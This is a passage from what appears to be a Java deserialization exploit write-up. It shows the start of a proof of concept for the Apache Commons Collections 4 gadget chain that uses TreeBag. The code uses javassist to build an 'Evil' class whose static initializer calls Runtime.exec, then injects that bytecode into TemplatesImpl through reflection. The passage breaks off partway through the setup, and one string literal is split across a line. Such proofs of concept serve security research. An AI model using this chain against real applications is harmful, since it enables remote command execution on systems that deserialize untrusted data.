 ```java
    }
}
```
<img src="./images/9.png" alt="">

## POC-2
> Compared with `POC-1`, `TreeBag` and `TreeMap` are used instead of `PriorityQueue` for construction

```java
package CommonsCollections4;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.bag.TreeBag;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 11:26 am
 */
public class CommonsCollectionsTreeBag {

    public static void CC4() throws NotFoundException, CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl obj = new TemplatesImpl();
        Class _class = obj.getClass();
        Field _name = _class.getDeclaredField("_name");
        Field _bytecode = _class.getDeclaredField("_bytecodes");
        Field _tfactory = _class.getDeclaredField("_t
factory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(obj, "h3rmesk1t");
        _bytecode.set(obj, targetCode);
        _tfactory.set(obj, new TransformerFactoryImpl());

```